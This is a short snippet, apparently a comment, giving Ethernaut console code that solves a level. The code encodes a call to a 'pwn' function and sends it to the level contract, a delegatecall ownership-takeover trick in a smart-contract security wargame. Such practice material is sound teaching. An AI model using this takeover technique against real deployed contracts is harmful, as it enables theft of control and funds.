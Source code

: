 working with the ethernaut console this worked

```let data = web3.eth.abi.encodeFunctionCall({
    name: 'pwn',
    type: 'function',
    inputs: []
}, [])
sendTransaction({from: player, to: contract.address, data: data})```